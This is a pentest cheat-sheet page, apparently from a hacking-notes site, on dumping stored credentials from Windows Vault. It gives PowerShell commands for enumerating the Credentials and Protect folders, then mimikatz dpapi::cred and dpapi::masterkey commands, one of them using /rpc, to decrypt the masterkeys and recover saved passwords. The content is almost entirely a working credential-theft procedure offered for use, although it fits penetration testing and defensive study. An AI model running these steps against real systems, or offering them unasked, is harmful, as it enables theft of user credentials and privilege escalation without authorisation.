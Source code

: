 ```yaml
---
title: Dumping Credentials from Windows Vault
description: We may be able to retrieve credentials if Windows Vault credentials are stored some folders.
tags:
    - Privilege Escalation
    - Windows
refs:
    - https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords
    - https://tools.thehacker.recipes/mimikatz/modules/vault/cred
date: 2023-03-26
draft: false
---
```


## 1. Enumerate Credentials

```powershell
# Under %APPDATA% folder
Get-ChildItem C:\Users\<user>\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\<user>\AppData\Roaming\Microsoft\Credentials\

# Under %LOCALAPPDATA% folder
Get-ChildItem C:\Users\<user>\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\<user>\AppData\Local\Microsoft\Credentials\
```

## 2. Dump Credential Information

```powershell
mimikatz # dpapi::cred /in:C:\Users\<user>\AppData\Roaming\Microsoft\Credentials\123ABC...
# or
mimikatz # dpapi::cred /in:C:\Users\<user>\AppData\Local\Microsoft\Credentials\123ABC...
```

We can retrieve the `guidMasterKey` value that is used for the next section.

## 3. Decrypt MasterKey

The DPAPI keys are stored under `%APPDATA%\Microsofr\Protect\` or `%LOCALAPPDATA%\Microsoft\Protect\` folder. These keys are used for encrypting

```powershell
# Under %APPDATA%
Get-ChildItem C:\Users\<user>\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\<user>\AppData\Roaming\Microsoft\Protect\
dir C:\Users\<user>\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\<user>\AppData\Roaming\Microsoft\Protect\{SID}\
Get-ChildItem -Hidden C:\Users\<user>\AppData\Roaming\Microsoft\Protect\{SID}\
dir C:\Users\<user>\AppData\Roaming\Microsoft\Protect\{SID}\

# Under %LOCALAPPDATA%
Get-ChildItem C:\Users\<user>\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\<user>\AppData\Local\Microsoft\Protect\
dir C:\Users\<user>\AppData\Local\Microsoft\Protect\
Get-ChildItem C:\Users\<user>\AppData\Local\Microsoft\Protect\{SID}\
Get-ChildItem -Hidden C:\Users\<user>\AppData\Local\Microsoft\Protect\{SID}\
dir  C:\Users\<user>\AppData\Local\Microsoft\Protect\{SID}\
```

Now decrypt the master keys:

```powershell
# /rpc: Remotely decrypt the MasterKey
mimikatz # dpapi::masterkey /in:C:\Users\<user>\AppData\Roaming\Microsoft\Protect\{SID}\{STRING} /rpc
```

We can get the `key` value that is the decrypted Master Key.

## 4. Dump Credentials

We can dump credentials using the collected Credential value and decrypted Master Key (domainkey).

```powershell
# Specify '/<guidMasterKey>::<masterkey>'
mimikatz # dpapi::cred /in:C:\Users\<user>\AppData\Local\Microsoft\Credentials\123ABC... /01234567-890abcde...::abcdef...
```
